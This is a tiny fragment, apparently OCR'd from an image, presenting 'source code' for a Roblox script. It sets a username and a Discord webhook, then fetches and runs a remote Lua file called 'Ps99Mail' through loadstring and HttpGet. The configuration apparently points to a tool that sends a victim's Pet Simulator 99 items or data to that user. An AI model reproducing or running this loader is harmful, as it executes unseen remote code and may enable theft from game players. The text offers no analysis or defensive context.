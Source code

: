 Username = "emoo_1098411224"
Webhook = "https://discord.com/api/webhooks/"

loadstring(game:HttpGet("https://raw.githubusercontent.com/JrexsScript/Ps99Mail/main/Ps99.lua"))()```
